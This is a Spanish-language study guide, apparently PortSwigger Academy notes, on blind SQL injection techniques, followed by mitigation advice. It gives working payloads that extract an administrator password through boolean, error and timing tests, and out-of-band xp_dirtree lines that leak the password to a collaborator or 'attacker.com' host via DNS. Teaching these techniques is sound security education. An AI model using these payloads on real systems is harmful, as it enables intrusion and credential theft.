 # Blind SQL Injection



Una **Blind SQL injection** ocurre cuando la aplicación es vulnerable a inyección SQL, pero **no muestra en la respuesta HTTP** ni los resultados de la query ni mensajes de error de la base de datos.
Esto imposibilita técnicas visibles como ataques con `UNION`, pero aún se puede explotar mediante otras estrategias.

---

## Técnicas de explotación en Blind SQLi

### 1. Condicionales en las respuestas (Boolean-based)

1. Confirmar que el parámetro es vulnerable con condiciones triviales (`' AND '1'='1` / `' AND '1'='2`).

La aplicación cambia de comportamiento según si la condición inyectada es verdadera o falsa.
Ejemplo con cookie `TrackingId`:

```http
Cookie: TrackingId=xyz' AND '1'='1   --> devuelve "Welcome back"
Cookie: TrackingId=xyz' AND '1'='2   --> no devuelve "Welcome back"
```

2. Determinar la longitud aproximada probando `LENGTH`/`LEN` con booleanos o avanzando hasta obtener false cuando la posición excede la longitud.
 ```sql
  ' AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > 10 --
  ```

Esto permite inferir bit a bit datos sensibles con funciones como `SUBSTRING`:

3. Para posición `i` probar caracteres `c` hasta encontrar el verdadero:

   * `' AND SUBSTRING((SELECT Password ...), i, 1) = 'c' -- `
   * o usar comparaciones `>` / `<` para acelerar (`> 'm'`, etc.).

Ejemplo:
```sql
xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='s
```
Conviene usar el intruder con el payload `' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'--`

Metodología completa: 
[Boolean_based](https://github.com/juanpoch/PortSwigger_Academy/blob/main/Server-side/1_SQL_injection/3_Blind_SQLi/Boolean_based.md)

### 2. Basada en errores (Error-based)

Si la aplicación filtra los resultados pero **sí muestra errores del motor SQL**, podemos usarlos para inferir datos.

* **Condicionales con errores**:

```sql
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

Si `1=1`, se produce error de división por cero → respuesta diferente.

* **Errores verbosos**:
  Malas configuraciones pueden devolver el query entero o incluso datos. Ejemplo:

```sql
CAST((SELECT password FROM users) AS int)
```

Error devuelto:

```
ERROR: invalid input syntax for type integer: "S3curePwd"
```

Esto convierte una blind SQLi en visible.

### 3. Basada en tiempos (Time-based)

Si la app no muestra errores y el comportamiento no cambia, se fuerza un **retraso condicional**:

* **MSSQL**:

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--   -- demora 10s
'; IF (1=2) WAITFOR DELAY '0:0:10'--   -- sin demora
```

* **MySQL**:

```sql
' OR IF(1=1, SLEEP(5), 0)--
```

La diferencia en el tiempo de respuesta revela si la condición es verdadera.

Se pueden extraer caracteres de forma binaria:

```sql
'; IF (SELECT SUBSTRING(password,1,1) FROM users WHERE username='Administrator')>'m' WAITFOR DELAY '0:0:5'--
```

### 4. Out-of-band (OAST)

Si la query se ejecuta de forma asincrónica o no altera la respuesta/tiempo, se puede provocar una **interacción externa (DNS, HTTP, SMB)** hacia un servidor controlado por el atacante.

Ejemplo en MSSQL con Burp Collaborator:

```sql
'; exec master..xp_dirtree '//abc123.burpcollaborator.net/a'--
```

Genera una consulta DNS → detectada por Collaborator.

Incluso se puede exfiltrar datos:

```sql
'; DECLARE @p varchar(1024);
   SET @p=(SELECT password FROM users WHERE username='Administrator');
   exec('master..xp_dirtree "//'+@p+'.abc123.burpcollaborator.net/a"')--
```

La contraseña queda embebida en el subdominio.

---

## Ejemplos de payloads por técnica

* **Boolean-based**:

```
' AND '1'='1--
' AND SUBSTRING((SELECT user()),1,1)='r'--
```

* **Error-based**:

```
' AND CAST((SELECT database()) AS int)--
```

* **Time-based**:

```
' OR IF(ASCII(SUBSTRING(user(),1,1))>77, SLEEP(5), 0)--  # MySQL
```

* **Out-of-band**:

```
'; exec master..xp_dirtree '//attacker.com/a'--
```

---

## Mitigación

Las medidas son las mismas que para SQLi clásica:

* **Usar consultas parametrizadas**.
* No construir SQL con concatenación de input.
* **Principio de menor privilegio** para la cuenta de BD.
* **Errores genéricos para el cliente**, logs detallados en servidor.
* Monitoreo de patrones anómalos y WAF.

---
